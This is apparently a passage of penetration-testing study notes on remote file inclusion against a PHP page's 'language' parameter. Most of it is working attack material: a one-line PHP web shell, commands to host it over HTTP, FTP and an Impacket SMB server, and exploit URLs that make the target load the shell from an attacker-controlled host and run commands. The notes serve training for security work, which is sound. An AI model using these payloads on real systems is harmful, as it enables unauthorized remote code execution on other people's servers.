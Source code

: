 We can then execute through HTTP or FTP.

#### HTTP
We make our shell and put it on our machine.
```shell-session
$ echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Start a web server:
```shell-session
sudo python3 -m http.server <LISTENING_PORT>
Serving HTTP on 0.0.0.0 port <LISTENING_PORT> (http://0.0.0.0:<LISTENING_PORT>/) ...

SERVER_IP - - [SNIP] "GET /shell.php HTTP/1.0" 200 -
```

Then we insert our website and the command into the vulnerable parameter:
```
http://TGTIP:TGTPORT/index.php?language=http://OURIP:LISTENING PORT:/shell.php&cmd=id
```

#### FTP
This may be usefule where there is a firewall blocking HTTP ports

Again we have our shell as before. Set up an FTP Server:
```shell-session
sudo python -m pyftpdlib -p 21

[SNIP] >>> starting FTP server on 0.0.0.0:21, pid=23686 <<<
[SNIP] concurrency model: async
[SNIP] masquerade (NAT) address: None
[SNIP] passive ports: None
```

Have the target system connect:
```
http://TGTIP:TGTPORT/index.php?language=ftp://OURIP/shell.php&cmd=id
```


#### SMB
If the vulnerable web application is hosted on a Windows server (which we can tell from the server version in the HTTP response headers), then we do not need the `allow_url_include` setting to be enabled for RFI exploitation, as we can utilize the SMB protocol for the remote file inclusion. This is because Windows treats files on remote SMB servers as normal files, which can be referenced directly with a UNC path.

We can spin up an SMB server using `Impacket's smbserver.py`, which allows anonymous authentication by default, as follows:
```shell-session
impacket-smbserver -smb2support share $(pwd)
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
